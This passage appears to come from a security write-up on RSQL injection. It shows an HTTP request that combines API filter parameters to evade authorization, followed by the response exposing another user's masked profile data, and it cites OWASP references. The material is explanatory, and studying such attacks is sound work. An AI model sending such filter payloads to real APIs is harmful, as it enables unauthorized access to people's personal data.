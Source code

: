     }]
}
```
```
The combination of filters can be used to evade authorization control and gain access to other users' profiles:
### Request
```
GET /api/users?include=language,country&filter[users]=id=='94***************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ....
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:50:07 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 520
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "94******************",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 2,
            "translationKey": "**************",
            "email": "jose******@domain.local",
            "firstName": "jose",
            "surname": "***************",
            "telephoneCountryCode": "**",
            "mobilePhone": "********",
            "taxIdentifier": "*********",
            "languageId": 1,
            "createdAt": "2024-11-21T08:29:05.833Z",
            "termsOfUseAccepted": true,
            "id": "94******************",
            "type": "UserGetResponseCustomDTO"
        }
    }]
}
```
```
## References
- [[https://owasp.org/www-community/attacks/RSQL_Injection|RSQL Injection]]
- [[https://m3n0sd0n4ld.github.io/patoHackventuras/rsql_injection_exploitation|RSQL Injection Exploitation]]